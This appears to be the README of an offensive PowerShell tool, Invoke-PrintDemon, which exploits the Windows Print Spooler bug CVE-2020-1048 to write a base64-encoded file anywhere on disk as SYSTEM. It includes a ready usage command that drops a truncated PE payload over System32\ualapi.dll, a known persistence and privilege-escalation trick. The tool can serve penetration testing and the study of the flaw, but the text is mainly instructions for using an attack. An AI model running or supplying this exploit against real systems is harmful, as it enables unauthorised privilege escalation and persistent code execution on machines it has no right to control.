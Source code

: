 # Invoke-PrintDemon
## SYNOPSIS

This script uses the PrintDemon bug to print a file (base64 encoded) anywhere as SYSTEM.

## DESCRIPTION

An elevation of privilege vulnerability exists when the Windows Print Spooler service improperly allows arbitrary writing to the file system. An attacker who successfully exploited this vulnerability could run arbitrary code with elevated system privileges. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.

This script creates a printer with a given printer port and uses the PrintDemon bug to drop a file from base64 encoded string code you given anywhere on disk as SYSTEM. Simply given the printer port as a file path where you want to print to and gievn the base64 encoded string code from which you want to decode from.

```powershell
Import-Module .\Invoke-PrintDemon.ps1
Invoke-PrintDemon -PrinterName "PrintDemon" -Portname "C:\Windows\System32\ualapi.dll" -Base64code "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSG1vZGUuDQ0K...JAAAAAAAAABHbe94AwyBKwMMgSsDDIErWGSFKgIMgStYZIAqAQyBKxdngCoEDIErAwyAK0EMgSsXZ4IqAQyBKxdnhSoHDIErxWOJKgIMgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```

## LINK

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-1048

https://windows-internals.com/printdemon-cve-2020-1048/

https://github.com/BC-SECURITY/Invoke-PrintDemon
